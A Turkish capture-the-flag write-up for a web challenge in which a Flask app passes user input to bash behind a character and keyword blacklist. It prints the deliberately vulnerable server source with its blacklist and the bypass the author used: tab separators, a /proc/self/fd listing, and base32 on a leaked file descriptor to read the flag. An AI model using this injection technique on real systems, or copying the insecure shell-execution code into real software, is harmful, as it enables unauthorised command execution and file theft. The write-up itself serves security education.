

# Bizde Beklemiyorduk - Web 500


```
kendini hacker sanan, 3 harfli 4 harfli cok sayida sertifikasi olan kardesimiz bir website yapmis.
akli sira oradan buradan duydugu tum kelimeleri wordliste eklemis ve blacklist yapmis.
kendini cok guvende hisseden arkadasimiza acilen ders vermeniz gerekiyor.
tek amacin var, o da /flag dosyasini okumak, al bi de burdan yak sadrazamim id
```


Yani blacklist ile filtreleme vardı. Tabiki ilk olarak denediğimiz şey ls,cat,cd ve whitespace idi.
Fakat sadece ls serbestti. Hmene enumurate etmeye başladık. İlk bilindik  special karakterleri ve harflerı forcelamaya başladık. (bknz. [./sChar.txt](sChar.txt) )



```
%09 ! , - . 0-9 A-Z {}

```

bu karakterler serbestti

Sonra linux command brute force yapmaya basladik . dizinde server.py diye bir dosya oldugunu zaten biliyorduk. onu okumayi dendedik.[./lin.txt](lin.txt) )


`base32` ve `{re,}{v,}` serbestti `base32` uzerinden yurumeye devam ettik.


``` python
import os
import commands
from flask import Flask, request
app = Flask(__name__)

flag = open('/flag', 'r')

blist = (
    "'",
    '\\',
    '176.233',
    'scp',
    'sed',
    'diff',
    'ps',
    'dd',
    'sleep',
    '-r',
    '-R',
    'power',
    'core',
    'less',
    ',/',
    '"',
    '$',
    '`',
    '&',
    '|',
    '*',
    '?',
    '#',
    '%',
    '+',
    '=',
    '>',
    '<',
    '[',
    ']',
    '^',
    '_',
    '~',
    '\x0a',
    '\x0d',
    ';',
    '(',
    ')'
    'pwd',
    ' ',
    'base64',
    'dev',
    'sys',
    'GET',
    'var',
    ':',
    'pip',
    'cp',
    'g',
    'h',
    'j',
    'k',
    'm',
    'w',
    'n',
    'u',
    'x',
    'vi',
    't',
    'rev',
    'z'
)

def before_exec(cmd):
    for b in blist:
        if b in cmd:
            return False
    return True

def after_exec(res):
    if ('REtIT1M='.decode('base64') in res) or ('176.233' in res) or ('U09IS0Q='.decode('base64') in res) or ('MDQ1NTA0'.decode('base64') in res) or ('NGI0NA=='.decode('base64') in res) or ('MDAwMA=='.decode('base64') in res):
        return False
    return True

@app.route("/")
def hello():
    comment = 'kendini hacker sanan, 3 harfli 4 harfli cok sayida sertifikasi olan kardesimiz bir website yapmis.<br>'
    comment += 'akli sira oradan buradan duydugu tum kelimeleri wordliste eklemis ve blacklist yapmis.<br>'
    comment += 'kendini cok guvende hisseden arkadasimiza acilen ders vermeniz gerekiyor.<br>'
    comment += 'tek amacin var, o da /flag dosyasini okumak, al bi de burdan yak sadrazamim <a href="/exec?cmd=id">id</a>'
    return comment

@app.route("/exec")
def exec_cmd():
    cmd = request.args.get('cmd', 'id')
    if not cmd:
        cmd = 'id'

    if len(cmd) > 36:
        return "olmadi, cok uzun bu yemezler" + '<br><br><br>'

    status = before_exec(cmd)
    if not status:
        return "gene olmadi bu, ilk gonderdigin request sikintili :(" + '<br><br><br>'

    code, result = commands.getstatusoutput("bash -c '" + cmd + "'")
    status = after_exec(result)
    if not status:
        return "tam oluyordu yoldan dondu, output sikintili :(" + '<br><br><br>'

    result += '<br><br>'

    return result

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=False)

```

Blacklist gorunuyordu ama blacklistte `g` harfi yasakli oldugundan flag yazamazdik. Bu yuzden kodu incelemeye basladik. Ve bir satir dikkatimiz cekti.

``` python
flag = open('/flag', 'r')
```

`flag` diye bir degiskenin icine flag atanmisti. Fakat sorun bizim bu degiskeni nasik okuyacagimizdi. BIraz arastirdik
Linux server oldugundan `/proc/self/fd`(/self = background ) dosya yolunda bizim backgroundda calisan procceslerin bilgilerinin yazdigini ogrendik.( cumleyi kuramadim ama olsun )  

ve oraya ls ile bakalim dedik.

```bash
view-source:54.147.235.12/exec?cmd=ls%09-l%09/proc/self/fd

total 0
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 0 -> pipe:[727885]
l-wx------ 1 nobody nogroup 64 Feb 14 13:09 1 -> pipe:[1261887]
l-wx------ 1 nobody nogroup 64 Feb 14 13:09 2 -> pipe:[1261887]
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 26 -> /flag
lr-x------ 1 nobody nogroup 64 Feb 14 13:09 3 -> /proc/11448/fd
```

Ve flag orada duruyordu
```
view-source:http://54.147.235.12/exec?cmd=base32%09/proc/self/fd/26

IRFUQT2TL55XGMDOONPW6ZS7MQZW43RRONPXEMLUMNUDG7IKBIFA====
```

ve decode ettigimizde bayrak `DKHOS_{s0ns_of_d3nn1s_r1tch3}`
